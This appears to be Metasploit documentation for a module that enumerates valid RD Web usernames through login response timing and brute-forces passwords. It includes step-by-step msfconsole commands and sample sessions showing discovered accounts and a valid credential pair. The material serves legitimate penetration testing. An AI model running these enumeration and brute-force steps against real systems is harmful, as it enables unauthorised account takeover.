 ## Vulnerable Application

The Microsoft RD Web login is vulnerable to the same type of authentication username enumeration vulnerability
that is present for OWA. By analyzing the time it takes for a failed response, the RDWeb interface can be used
to quickly test the validity of a set of usernames. The module additionally supports testing username password
combinations. Additionally, this module can attempt to discover the target NTLM domain if you don't already know it.
This module also reports credentials to the credentials database when they are discovered.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/rdp_web_login`
- [ ] `set rhost TARGET_IP`
- [ ] `set username USER_OR_FILE`
- [ ] `set password PASSWORD_OR_FILE` (Only if you want to test the password brute forcing)
- [ ] `set domain DOMAIN` (Only if you don't want to test the domain discovery feature)
- [ ] Check output for validity of your test username(s), password(s), and domain


## Options

### domain

The target domain to use for the username checks. If not provided, enum_domain needs to be set to true so it can be discovered.

### enum_domain

Enumerate the domain by using an NTLM challenge/response and parsing the AD Domain out.

### username

Either a specific username to verify or a file with one username per line to verify.

### password

Either a specific password to attempt or a file with one password per line to verify.
If not provided, uses the same None password for all requests

### verify_service

Whether or not to verify that RDWeb is installed prior to scanning. Defaults to true.

### user_agent

An alternate User Agent string to use in HTTP requests. Defaults to Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0.

## Scenarios
If an RDWeb login page is discovered, you can use this module to gather valid usernames for a brute force attack.

Specific target output replaced with Ys so as not to disclose information
```msf > use auxiliary/scanner/http/rdp_web_login
msf auxiliary(scanner/http/rdp_web_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf auxiliary(scanner/http/rdp_web_login) > set RHOSTS YY.YYY.YYY.YY
RHOSTS => YY.YYY.YYY.YY
msf auxiliary(scanner/http/rdp_web_login) > run

[*] Running for YY.YYY.YYY.YY...
[+] Found Domain: YYYYYYYYYYYY
[-] Username YYYYYYYYYYYY\wrong is invalid! No response received in 1250 milliseconds
[+] Username YYYYYYYYYYYY\YYYYY is valid! Response received in 628.877 milliseconds
[-] Username YYYYYYYYYYYY\k0pak4 is invalid! No response received in 1250 milliseconds
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

If an RDWeb login page is discovered, you can use this module to perform a brute force attack.
```msf > use auxiliary/scanner/http/rdp_web_login
msf auxiliary(scanner/http/rdp_web_login) > set RHOSTS 192.168.148.128
RHOSTS => 192.168.148.128
msf auxiliary(scanner/http/rdp_web_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf auxiliary(scanner/http/rdp_web_login) > set password /home/kali/passwords.txt
password => /home/kali/passwords.txt
msf auxiliary(scanner/http/rdp_web_login) > set timeout 500
timeout => 500
msf auxiliary(scanner/http/rdp_web_login) > run

[*] Running for YY.YYY.YYY.YY...
[+] Found Domain: YYYY
[-] Login YYYY\wrong:password is invalid! No response received in 500 milliseconds
[-] Login YYYY\wrong:Password1! is invalid! No response received in 500 milliseconds
[+] Password password is invalid but YYYY\k0pak4 is valid! Response received in 155.648 milliseconds
[+] Login YYYY\k0pak4:Password1! is valid!
[+] Password password is invalid but YYYY\Administrator is valid! Response received in 77.852 milliseconds
[+] Password Password1! is invalid but YYYY\Administrator is valid! Response received in 76.029 milliseconds
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

## Version and OS
Tested against Microsoft IIS 10.0 and RDWeb on Windows Server 2019 and Windows Server 2016

## References
- https://raxis.com/blog/rd-web-access-vulnerability
